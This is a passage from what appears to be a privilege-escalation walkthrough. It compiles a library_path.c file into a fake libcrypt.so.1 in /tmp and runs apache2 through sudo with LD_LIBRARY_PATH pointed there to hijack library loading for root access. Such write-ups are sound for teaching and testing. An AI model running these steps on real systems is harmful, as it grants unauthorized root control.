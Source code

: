 ```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

##### Step 6: Run Apache2 with `LD_LIBRARY_PATH`

Run `apache2` using `sudo`, while setting the `LD_LIBRARY_PATH` environment variable to `/tmp` (where the compiled shared object is located):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

